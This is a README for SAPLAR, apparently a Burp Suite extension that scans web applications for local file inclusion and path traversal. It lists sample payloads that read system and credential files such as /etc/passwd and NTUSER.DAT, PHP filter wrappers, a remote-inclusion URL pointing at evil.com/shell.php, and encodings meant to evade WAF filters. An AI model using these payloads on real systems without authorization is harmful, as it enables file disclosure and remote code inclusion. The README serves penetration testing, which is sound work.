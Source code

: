 # SAPLAR
SAPLAR - LFI &amp; Path Traversal Scanner


## Project Overview

SAPLAR is a powerful Burp Suite extension designed to detect Local File Inclusion (LFI) and Path Traversal vulnerabilities in web applications. It is specifically built for penetration testers, bug bounty hunters, and security researchers who need an automated, flexible, and highly efficient LFI scanner within Burp Suite.

This tool injects LFI payloads into various parts of the HTTP request, including:

- **GET Parameters**
- **POST Data**
- **Cookies**
- **HTTP Headers**

SAPLAR analyzes the server response to identify common LFI signatures and indicators. It features automated active scanning, manual scanning, and multiple encoding options to bypass security filters.


## Features

### Multi-Vector LFI Injection

SAPLAR automatically injects payloads into multiple request locations:

- **Query Parameters (?file=../../etc/passwd)**
- **POST Body (file=../../etc/passwd)**
- **Cookies (session=../../etc/passwd)**
- **HTTP Headers (User-Agent, Referer, X-Forwarded-For, Authorization, etc.)**



### Wide LFI Payload Database

Includes hundreds of payloads targeting:

- **Linux systems (/etc/passwd, /proc/self/environ, /var/log/auth.log)**
- **Windows systems (C:\Windows\win.ini, C:\boot.ini, C:\Users\Administrator\NTUSER.DAT)**
- **PHP Wrappers (php://filter/convert.base64-encode/resource=index.php)**
- **Log file extraction (../../../../var/log/apache2/access.log)**
- **Remote inclusion possibilities (http://evil.com/shell.php)**



### Automatic Encoding & WAF Bypass

Payloads can be encoded automatically to bypass security protections like WAF (Web Application Firewalls) and input validation filters.

- **Base64 Encoding**
- **URL Encoding (Single, Double, Triple)**
- **HEX Encoding**
- **Unicode Encoding**



### Signature-Based Response Analysis

SAPLAR scans responses for known LFI indicators, such as:

- **System Users: "root:x:0:0:", "NT AUTHORITY\\SYSTEM"**
- **Configuration Files: "[boot loader]", "kernel.core_pattern"**
- **Error Messages: "failed to open stream", "No such file or directory"**
- **False Positive Filtering: Detects standard 403/404 responses**



### Header & Cookie-Based Injection

Injects LFI payloads into common headers:

- **User-Agent**
- **Referer**
- **X-Forwarded-For**
- **Authorization**
- **X-Api-Key**
- **Accept-Charset**

Cookie Manipulation: Tries injecting LFI payloads into cookie values.




### GUI Integration in Burp Suite

SAPLAR provides a user-friendly graphical interface in Burp Suite.

- **A dedicated LFI Scan tab to manage scans.**
- **Right-click on any request in Burp and select "Scan for LFI".**
- **Real-time exploit status updates (Exploited, Not Vulnerable, Possible LFI).**



## Installation

- **Open Burp Suite and navigate to Extender → Extensions.**
- **Click Add, select Python, and load SAPLAR.py.**
- **The "LFI Scan" tab will appear in Burp Suite.**



## Usage

### Active LFI Scanning

- **Enable automatic scanning in Burp’s proxy or scanner settings.**
- **SAPLAR will inject payloads and analyze the responses.**
- **If an LFI vulnerability is detected, it will be flagged in the LFI Scan tab.**


### Manual LFI Scanning

- **Right-click on any HTTP request in Burp Proxy, Repeater, or Scanner.**
- **Select "Scan for LFI" from the context menu.**
- **View the results in the LFI Scan panel.**


## Signature-Based Detection & Exploit Confirmation

SAPLAR performs heuristic-based detection by analyzing HTTP responses.


- **Direct File Output:**

"root:x:0:0" → Indicates successful passwd file read.

"[boot loader]" → Windows system file.

"NT AUTHORITY\\SYSTEM" → Windows privilege escalation.


- **Error Messages:**

"failed to open stream" → Indicates file inclusion attempt.
"No such file or directory" → Confirms traversal attempt but file not found.


- **False Positive Prevention:**

Content-Length Analysis
403/404 Page Detection

